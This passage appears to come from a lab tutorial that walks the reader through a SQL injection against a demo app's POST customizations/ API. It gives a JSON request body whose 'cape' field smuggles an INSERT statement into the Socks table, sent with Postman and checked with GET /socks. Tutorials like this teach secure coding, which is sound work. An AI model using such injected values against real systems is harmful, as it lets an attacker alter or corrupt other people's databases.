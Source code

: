we can easily embed SQL statements in the body of the request to get executed. For example, in the body of the POST customizations/ API, try using the below:

```
{  
   "name":"Orange-themed unicorn",
   "imageUrl":"https://en.wikipedia.org/wiki/Orange_(fruit)#/media/File:Orange-Whole-%26-Split.jpg",
   "sock":"1",
   "horn":"2",
   "glasses":"3",
   "cape":"2); INSERT INTO Socks (NAME,PRICE) VALUES ('Bad color', 10000.00"
}
```

![](images/3A-injection.png)

Send the request using Postman. If the request succeeds, you have now just performed a SQL injection attack! 

If you look at the SQL injection statement we just performed, it's adding a bad value into the `Socks` table. We can verify that took effect by running the **GET /socks** API:

![](images/3A-after-injection.png)